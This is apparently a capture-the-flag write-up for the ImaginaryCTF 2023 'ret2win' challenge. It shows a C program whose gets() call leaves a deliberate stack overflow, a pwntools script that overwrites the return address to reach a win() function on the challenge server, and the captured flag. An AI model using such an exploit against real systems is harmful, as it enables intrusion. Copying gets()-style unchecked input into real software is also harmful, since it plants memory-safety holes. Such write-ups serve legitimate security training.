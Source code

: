 ```yaml
---
title: 2023 ImaginaryCTF - ret2win
date: 2023-07-23 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_imaginaryCTF
  - Binary Exploitation
  - Stack overflow
---
```


## Description

> Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)

> ```sh
> nc ret2win.chal.imaginaryctf.org 1337
> ```

### Attached

[ret2win.zip](https://github.com/nqthangcs/CTF-writeups/blob/main/2023/2023_imaginaryctf/attached/ret2win.zip)

## Analyzation

Check the file attached

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[64];
  gets(buf);
}

int win() {
  system("cat flag.txt");
}
```

```gets()``` is vuln, we can make a stack overflow

## Solution

```python
from pwn import *
conn = remote('ret2win.chal.imaginaryctf.org', '1337')
print(conn.recv().decode())
conn.sendline(b'A' * 0x48 + p64(0x401182))
print(conn.recv().decode())
```

The flag is
```
ictf{r3turn_0f_th3_k1ng?}
```
